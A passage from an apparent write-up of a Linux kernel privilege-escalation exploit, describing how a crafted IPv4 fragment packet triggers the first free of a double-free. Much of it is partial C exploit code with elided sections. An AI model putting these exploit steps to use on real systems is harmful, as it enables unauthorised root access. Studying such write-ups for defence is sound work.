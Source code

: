 ```c
    }
    
    // ... (more exploit stuff)
}
```

### Double-free (free 1)

In order to trigger the double-free, we send the IPv4 packet which satisfies the filter. This will cause the first free of the double-free. Then, it will send the packet to an IPv4 fragment queue (IFQ), until 999 seconds have passed or until the queue is complete (which we will complete when the 2nd free happened). 

```c
static void privesc_flh_bypass(struct shared_info *memdump_info)
{
    // ... (var declarations)
	struct ip df_ip_header = {
		.ip_v = 4,
		.ip_hl = 5,
		.ip_tos = 0,
		.ip_len = 0xDEAD,
		.ip_id = 0xDEAD,
		.ip_off = 0xDEAD,
		.ip_ttl = 128,
		.ip_p = 69,
		.ip_src.s_addr = inet_addr("1.1.1.1"),
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
        // ... (more exploit stuff)
    } else {
#if CONFIG_FLC_BYPASS
		set_ipfrag_time(1);

        // ... (create double-free evasion packet, which will be freed 1 sec from now)

		// make sure df trigger packet doesn't get expired while waiting for skb5 to be freed
		set_ipfrag_time(999);
#endif

		df_ip_header.ip_id = 0x1337;
		df_ip_header.ip_len = sizeof(struct ip)*2 + 32768 + 24;
		df_ip_header.ip_off = ntohs((0 >> 3) | 0x2000);  // wait for other fragments. 8 >> 3 to make it wait or so?
		trigger_double_free_hdr(32768 + 8, &df_ip_header);

        // ... (more exploit stuff)
    }
    
    // ... (more exploit stuff)
}
```

